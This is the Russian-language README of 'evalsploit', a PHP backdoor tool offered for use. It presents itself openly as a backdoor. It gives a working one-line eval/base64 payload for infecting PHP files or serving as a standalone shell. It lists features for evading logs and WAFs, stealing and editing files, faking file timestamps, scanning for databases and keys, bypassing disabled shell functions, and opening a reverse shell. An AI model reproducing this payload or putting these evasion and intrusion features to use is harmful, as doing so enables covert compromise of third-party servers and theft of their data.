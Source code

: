 # [evalsploit 中文版](README_CH.md)
# [evalsploit english](README.md)

# evalsploit по-русски


Бэкдор, основанный на `eval` функции 


### Особенности

-   **Тихая работа**
    -   Работа на POST-запросах, практическая невидимая для логов
    -   Встроенная надстройка для байпаса WAF
    -   Новый юзерагент каждую новую сессию
    -   Тихий режим работы


-   **Универсальный**
    -   Пейлоад может быть встроен в любой участок заражаемого php кода
    -   Подходит для работы с серверами на OS linux, Windows, Mac

# Руководство

#### Начало работы

1) Используйте пейлоад для заражения PHP или как самостоятельный шелл:
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
3) При запуске программы evalsploit потребует ссылку на файл с пейлоадом
4) При изменении модуля `send` (см. "надстройка программы") используйте команду `gen` для генерации нового пейлоада

#### Работа с файловой системой

-   `ls`: список файлов в директории 
	-   Надстройка `ls`: основано на функции DirectoryIterator (стоит по умолчанию)
	-   Надстройка `dir`: основано на функции ScanDir

-   `cp`: копирование файлов
    -   Использовать разделитель ` : ` (/что.txt : /куда/что.txt)

-   `cd`: перемещение по файловой системе

-	`mkd`: создать новую директорию

-	`upl`: загрузить файл на сервер

-	`home`: вернуться в \_\_DIR\_\_

-	`pwd`: вывод активной директории

#### Работа с файлами

-   `cat`: вывод содержимого файла
    -   Надстройка `html`: основано на функции htmlentities
	-   Надстройка `base64`: основано на функции base64_encode\base64_decode (стоит по умолчанию)

-   `rm`: удаление файла

-   `dl`: загрузка файла в папку downloads
	-	Плохо работает с файлами больше 100 мб
	
-   `edit`: изменить содержимое файла
	-	Плохо работает с файлами больше 100 мб

-	`mkf`: создать новый файл

-	`touch`: изменить дату файл
	-	Использовать разделитель ` settime ` (файл.php settime Год-Месяц-День Час:Минута:Секунда)

-	`stat`: данные о файле

-	`ren`: переименовать файл
	-	Использовать разделитель ` : ` (/где/старое.txt : новое.txt)


#### Работа с системой

-   `run`: перейти  в режим командной строки
	-	`exit` для выхода из режима 
	-	Поддерживает exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: данные о сервере
	-	Версия php, OS
	
-	`scan`: сканирование выбранной директории
	-	Поиск системных PHP, баз данных, ключей и так далее
	
-	`exploit`: обход запрета командной строки встроенными эксплоитами, активирует режим командной строки
	-	`exit` для выхода из режима 

-	`reverse`: акимвация реверс-шелла - `reverse IP:PORT`
	
-	`gen`: генерация пейлоада в зависимости от модуля send
	
-	`help`: основной экран
	
-	`exit`: выход из программы
	
	
	
#### Надстройка программы

-	`set`: настройка модулей. Чтобы посмотреть список параметров использовать `set модуль help`
	-	Вместо `help` допустимы `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (тихий режим)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (модуль отправки)
	
